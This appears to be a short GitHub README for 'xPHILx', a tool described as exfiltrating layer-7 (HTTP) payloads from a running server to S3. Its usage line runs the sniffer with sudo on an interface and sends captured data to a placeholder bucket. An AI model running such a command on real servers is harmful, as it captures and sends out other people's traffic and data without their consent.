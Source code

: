 # xPHILx

<img src="https://raw.githubusercontent.com/unclever-labs/xphilx/master/xphilx.jpg" width="375" height="466" />

## Introduction

Exfiltrate layer 7 payloads to S3 from a running server

## Contents

- [Usage](#usage)
- [Credits](#credits)

## Usage

```bash
sudo go run main.go -i lo0 -b s3://fake-bucket/
```

## Credits

- Photo from @cctildef on IG
- A lot of copy pasta from: https://github.com/google/gopacket/blob/master/examples/httpassembly/main.go
